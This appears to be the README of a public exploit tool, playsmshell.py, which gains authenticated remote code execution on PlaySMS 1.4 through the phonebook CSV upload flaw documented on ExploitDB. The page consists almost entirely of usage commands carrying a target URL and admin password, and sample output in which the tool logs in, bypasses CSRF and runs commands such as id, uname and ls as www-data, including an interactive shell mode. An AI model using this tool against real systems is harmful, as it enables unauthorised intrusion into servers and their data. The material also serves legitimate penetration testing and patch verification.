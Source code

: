 # PlaySMS 1.4 authenticated RCE

Simple method of performing remote code execution through the Phonebook CSV upload issue as described on [ExploitDB](https://www.exploit-db.com/exploits/42044/).

Either run a single command:

```
% python3 playsmshell.py --url http://localhost/playsms --password playwithsms -c 'id'
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
uid=33(www-data) gid=33(www-data) groups=33(www-data)

%
```

Or mimic a shell of sorts:

```
% python3 playsmshell.py --url http://localhost/playsms --password playwithsms -i
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
[+] Entering interactive shell; type "quit" or ^D to quit
> uname -a
Linux localhost 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686 i686 i686 GNU/Linux

> ls
config-dist.php
config.php
inc
index.php
init.php
lib
plugin
storage

> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

>
```

